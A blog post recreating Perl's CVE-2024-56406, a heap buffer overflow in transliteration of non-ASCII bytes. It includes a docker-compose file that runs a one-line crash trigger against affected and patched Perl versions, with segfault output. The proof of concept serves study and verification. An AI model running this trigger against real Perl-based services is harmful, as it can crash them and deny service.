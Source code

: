 ```yaml
---
title: "CVE-2024-56406"
date: 2025-05-17T00:00:00+00:00
description: "Discussion about the CVE-2024-56406."
type: post
image: images/blog/cve-2024-56406.png
author: Mohammad Sajid Anwar
tags: ["perl"]
---
```


#### **DISCLAIMER:** Image is generated using `Leonardo AI`.
***

<br>

In the earlier [**post**](/blog/cve-in-perl) where I discussed `CVE` in general and re-created `CVE-2018-18311`, `CVE-2023-31486` and `CVE-2023-47038`.

Recently I found out about [**CPAN Security Group**](https://security.metacpan.org) which is the `CVE Numbering Authority (CNA)` for `CPAN` and `Perl`.

At the `Perl Toolchain Summit 2025`, I had the honour to meet some of the members of the group i.e. ` Stig Palmquist` and `Breno Oliveira`.

Continuing with the series, today I am talking about one more `CVE-2024-56406`.

This particular one affected `v5.34`, `v5.36`, `v5.38` and `v5.40`.

It's about heap buffer overflow when transliterating non-ASCII bytes.

According to the [**official document**](https://lists.security.metacpan.org/cve-announce/msg/28708725), the specific affected versions are below:

<br>

```bash
    from 5.40.0 until 5.40.2
    from 5.38.0 until 5.38.4
    from 5.36.0 through 5.36.3
    from 5.34.0 through 5.34.3
```

<br>

I will use the similar pattern as before and create docker container with affected `Perl` versions.

In that, I'll also add couple of good ones as well.

This is my docker configuration file: `docker-compose.yml`

<br>

```bash
version: '3.8'

services:
  perl_5_34_0:
    container_name: perl_5_34_0
    image: perl:5.34.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_36_0:
    container_name: perl_5_36_0
    image: perl:5.36.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_38_0:
    container_name: perl_5_38_0
    image: perl:5.38.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_38_4:
    container_name: perl_5_38_4
    image: perl:5.38.4
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_40_0:
    container_name: perl_5_40_0
    image: perl:5.40.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_40_2:
    container_name: perl_5_40_2
    image: perl:5.40.2
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G
```

<br>

In summary, I am creating the following services that would throw error as expected:

<br>

```bash
    perl_5_34_0
    perl_5_36_0
    perl_5_38_0
    perl_5_40_0
```

<br>

There are two more services `perl_5_38_4` and `perl_5_40_2` which should be safe and unaffected.

Finally it's time to re-create the issues.

<br>

```bash
$ docker-compose run -rm perl_5_34_0
Creating cve-2024-56406_perl_5_34_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_36_0
Creating cve-2024-56406_perl_5_36_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_38_0
Creating cve-2024-56406_perl_5_38_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_40_0
Creating cve-2024-56406_perl_5_40_0_run ... done
ERROR: 139
```

<br>

If you noticed, the exit code is `139` in the affected services.

As we know, `Exit Code = Signal Number + 128` and the `segfault` signal number is `11`.

And the good ones are:

<br>

```bash
$ docker-compose run -rm perl_5_38_4
Creating cve-2024-56406_perl_5_38_4_run ... done
If you see this, Perl didn't crash!!
```

<br>

```bash
$ docker-compose run -rm perl_5_40_2
Creating cve-2024-56406_perl_5_40_2_run ... done
If you see this, Perl didn't crash!!
```

<br>

***

<br>

`Happy Hacking !!!`
